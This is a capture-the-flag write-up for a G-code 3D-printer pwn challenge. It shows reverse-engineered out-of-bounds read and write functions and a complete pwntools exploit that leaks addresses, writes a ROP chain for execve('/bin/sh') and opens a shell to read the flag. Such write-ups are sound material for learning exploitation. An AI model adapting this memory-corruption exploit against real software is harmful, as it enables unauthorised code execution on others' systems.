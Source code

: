 # youwouldntdownloada3dprinter

The challenge provides a binary, a Python script, and a website. The Python script is used to visualize the results of G-code commands, while the website does not contain any useful information. The binary prompts the user to input a G-code command. By researching G-code documentation, I found [this reference](https://marlinfw.org/meta/gcode/). After fuzzing the binary with various G-code commands, I discovered that only the following commands are implemented:

```
Code  Function
G0    Moves to new position without extruding.
G1    Moves to new position while extruding.
G28   Set position to origin.
G90   Changes mode to absolute positioning.
G91   Changes mode to relative positioning. 
G92   Moves to new position without extruding.
M1    Indefinite pause (sleep).
M33   Prints the path to flag.
M82   Sets the extruder mode to absolute.
M83   Sets the extruder mode to relative.
M84   Quit the program (stop motors).
M104  Sets the extruder temperature.
M105  Reads the current temperature of the extruder, bed and the extruded value.
M106  Turns the fan on. (useless)
M107  Turns the fan off. (useless)
M109  Waits until the extruder temperature reaches the set value. (useless)
M140  Sets the heated bed temperature. (useless)
M190  Waits until the bed temperature is reached. (useless)
```

After some testing, I found that most commands do nothing. However, after using `G0 X999 Y999 Z999` and `M105`, I encountered a segmentation fault. Since this seemed interesting, I decided to reverse engineer the binary using IDA Pro, where I identified the following function causing the segmentation fault:

```c
__int64 *__fastcall read_array(__int64 *out, __int64 *pos)
{
  __int64 *result; // rax
  char value; // cl

  result = out;
  value = *(_BYTE *)(62500 * pos[0] + 250 * pos[1] + pos[2] + pos[7]);
  *(_WORD *)out = 0;
  *((_BYTE *)out + 2) = value;
  return result;
}
```
We can cleary see that the function is reading 1 byte from an array with dimensions of 250x250x250 using the position set by `G0` or `G1`. After more testing, i also found out that using `G1` in coordinates out of the array boundaries caused a segfault, leading to this function:

```c
__int64 __fastcall add_array(__int64 *pos, char value)
{
  __int64 addr; // [rsp+18h] [rbp-20h]
  _BYTE read_value[4]; // [rsp+34h] [rbp-4h] BYREF

  addr = 62500 * pos[0] + 250 * pos[1] + pos[2] + pos[7];
  read_array((__int64)read_value, pos);
  *(_BYTE *)(addr) = value + read_value[2];
  return 0;
}

```

The function calls `read_array`, reading the value stored at coordinate, then adding the desired value to the read value and storing the result at the same position.
By using `G1` and `M105` we can prove that behaviour:


```
 > Enter G-code:
G1 X0 Y0 Z0 E5
 > Linearly setting position to (0, 0, 0) 0
M105      
 > ok T:0 B:0 V:5
G1 X0 Y0 Z0 E1
 > Linearly setting position to (0, 0, 0) 0
M105
 > ok T:0 B:0 V:6
```

We can see that `G1` is adding the value to the coordinate, which we can read throught the value outputted by `M105` (`V:[value]`).

With all that in mind, we can read and write to any memory address by using `G0`, `G1` and `M105`. For exploiting this, i used IDA debugger again for finding address leaks on the `.bss` section (the same section of the array), making it possible to write a rop chain for calling `execve("/bin/sh")` and ovewriting some arbitrary function return address with the chain.

Finding the gadgets for the chain was pretty easy, since the binary is statically linked with [MUSL](https://musl.libc.org/) libc. Since we can only write 1 byte at a time, we cant rely on functions that return every time we input data or read/write values, so, for picking the right function to overwrite its return address, i just picked one on the bottom of the stack.

Final exploit:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ./youwouldntdownloada3dprinter
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or './youwouldntdownloada3dprinter')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:       amd64-64-little
# RELRO:      Full RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled

# python version 3.13.2
# pwntools version 4.14.0

io = start()

# Read byte at coordinate (x, y, z)
def read_xyz(x, y, z):
  # Uses the G0 command to move to the specified coordinates
  # and the M105 command to read value at the current position
  payload = b""
  payload += f"G0 X{x} Y{y} Z{z}\n".encode()
  payload += b"M105"
  
  # G0 X[z] Y[y] Z[z]
  #  > Rapidly setting position to ([x], [y], [z]) 0
  # M105
  #  > ok T:0 B:0 V:[value]
  
  io.sendline(payload)
  io.recvuntil(b"V:")
  return int(io.recvline().strip())

# Read byte at offset
def read_byte(offset):
  return read_xyz(0, 0, offset)

# Read 64 bit value at offset
def read_64(offset):
  value = 0
  for i in range(8):
    byte = read_byte(offset + i)
    value |= (byte & 0xFF) << (i * 8)
  return value

# Add a byte value at coordinate (x, y, z)
def add_xyze(x, y, z, e):
  # Uses the G0 command to move to the specified coordinates
  # and the G1 command to write value at the same position
  payload = b""
  payload += f"G0 X{x} Y{y} Z{z}\n".encode()
  payload += f"G1 X{x} Y{y} Z{z} E{e}".encode()
  
  # G0 X[x] Y[y] Z[z]
  #  > Rapidly setting position to ([x], [y], [z]) 0
  # G1 X[x] Y[y] Z[z] E[e]
  #  > Linearly setting position to ([x], [y], [z]) 0
  
  io.sendline(payload)

# Write byte at offset
def write_byte(offset, value):
  # Sums the difference between the previous byte and the new byte  
  prev_byte = read_byte(offset)
  if (prev_byte == value):
    return
    
  if (prev_byte > value):
    new_byte = 0x100 - prev_byte + value
  else:
    new_byte = value - prev_byte
  
  add_xyze(0, 0, offset, new_byte)

# Write bytes starting from offset
def write_bytes(offset, data):
  for i in range(len(data)):
    write_byte(offset + i, data[i])

# Write 64 bit value at offset
def write_64(offset, value):
  for i in range(8):
    value_byte = (value >> (i * 8)) & 0xFF      
    write_byte(offset + i, value_byte)

io.recvuntil(b"> Enter G-code:\n")

text_leak = read_64(0xEE6B28) # offset for a .text address  
stack_leak = read_64(-0x8) # offset for a stack address

elf_base = text_leak - 0x18D60 # elf base address
array_base = elf_base + 0x50008 # base address used for the binary reading and writing operations
target_addr = stack_leak - 0xF8 # return address for an arbitrary function, target address for placing the ROP chain

exe.address = elf_base
rop_chain = ROP(exe, base=target_addr)

# Build the rop chain for execve("/bin/sh"),
# used raw syscall gadget to prevent pwntools from using sigreturn
syscall = rop_chain.find_gadget(["syscall", "ret"])[0]

rop_chain.rax = constants.SYS_execve
rop_chain.rdi = array_base # address of "/bin/sh"
rop_chain.rsi = 0
rop_chain.rdx = 0
rop_chain.raw(syscall)

write_bytes(0, b"/bin/sh") # write "/bin/sh" string to the array base
write_bytes(target_addr - array_base, rop_chain.chain()) # write the rop chain to the target address

# Command for finishing the execution, triggering the rop chain
io.sendline(b"M84")
io.recvuntil(b"\n")

log.success("Got shell")
io.interactive()
```

After obtaining the shell, I simply printed the flag using the `cat /flag` command. The flag's path was revealed earlier through the `M33` command.
